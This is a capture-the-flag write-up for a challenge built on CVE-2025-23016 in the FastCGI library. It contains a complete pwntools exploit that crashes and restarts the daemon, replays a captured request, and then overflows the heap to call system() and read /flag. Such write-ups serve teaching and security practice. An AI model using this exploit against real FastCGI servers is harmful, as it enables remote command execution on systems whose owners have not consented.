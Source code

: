 # D^3CGI

Just an easy 1day of FastCGI: [CVE-2025-23016](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-23016)

Patch: [b0eabcaf4d4f371514891a52115c746815c2ff15](https://github.com/FastCGI-Archives/fcgi2/commit/b0eabcaf4d4f371514891a52115c746815c2ff15)

Blog: [cve-2025-23016-exploiter-la-bibliotheque-fastcgi](https://www.synacktiv.com/publications/cve-2025-23016-exploiter-la-bibliotheque-fastcgi.html)

The heap fengshui process and vulnerability root cause analysis will not be repeated here; please refer to the above blog link👆.

Many players believe they have encountered issues where remote and local Docker environments behave differently, but this is not the case. This is a design consideration aimed at addressing exploit robustness issues. There are two scenarios that may cause an exploit working locally to fail remotely:

1. The remote environment is disrupted by other connections, causing changes in memory layout;
2. When using tools like cURL to make requests to remote and local environments, certain request headers (e.g., Host) may have differing lengths;

To address these issues, the following improvements can be made to the PoC:

1. Send a request that causes a buffer overflow, causing the pre-started FastCGI process in lighttpd to crash and restart, thereby resetting the memory layout;

2. Avoid using cURL directly and instead capture the request after it has been converted to FastCGI format for replay.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.log_level = "debug"
context.arch = "i386"

def start(argv=[], *a, **kw):
    return remote("127.0.0.1", 9999)
    #return remote("35.220.136.70", 30777)

"""
typedef struct {
    unsigned char version;
    unsigned char type;
    unsigned char requestIdB1;
    unsigned char requestIdB0;
    unsigned char contentLengthB1;
    unsigned char contentLengthB0;
    unsigned char paddingLength;
    unsigned char reserved;
} FCGI_Header;
"""
def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""
typedef struct {
    unsigned char roleB1;
    unsigned char roleB0;
    unsigned char flags;
    unsigned char reserved[5];
} FCGI_BeginRequestBody;
"""
def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5
    
# crash and restart daemon
io = start()
io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + (p8(0x13) + p8(0x13) + b"b" * 0x26)*1 + p32(0xffffffff) + p32(0xffffffff) + p32(0xdeadbeef)*0x30)
io.close()
pause(3) # restarting...
# curl http://127.0.0.1:9999/ => FastCGI Format
io = start()
io.send(b'\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x01\x9b\x00\x00\x0e\x01CONTENT_LENGTH0\x0c\x00QUERY_STRING\x0b\x01REQUEST_URI/\x0f\x03REDIRECT_STATUS200\x0b\x01SCRIPT_NAME/\x0f\x05SCRIPT_FILENAME/www/\r\x04DOCUMENT_ROOT/www\x0e\x03REQUEST_METHODGET\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0f\x0fSERVER_SOFTWARElighttpd/1.4.79\x11\x07GATEWAY_INTERFACECGI/1.1\x0e\x04REQUEST_SCHEMEhttp\x0b\x04SERVER_PORT8888\x0b\tSERVER_ADDR127.0.0.1\x0b\tSERVER_NAME127.0.0.1\x0b\tREMOTE_ADDR127.0.0.1\x0b\x05REMOTE_PORT36190\t\x0eHTTP_HOST127.0.0.1:8888\x0f\nHTTP_USER_AGENTcurl/8.5.0\x0b\x03HTTP_ACCEPT*/*\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00')
io.close()
# exploit and read '/flag'
io = start()
system_plt = 0x80490c0
io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + (p8(0x13) + p8(0x13) + b"b" * 0x26)*1 + ((p8(0) * 2) * 1) + p32(0xffffffff) + p32(0xffffffff) + p32(0xdeadbeef)*12  + b"aaa; cat /flag >&3".ljust(4*5, b"\x00") +p32(0) * 3 + p32(system_plt) + p32(0xdeadbeef) )
io.interactive()
```
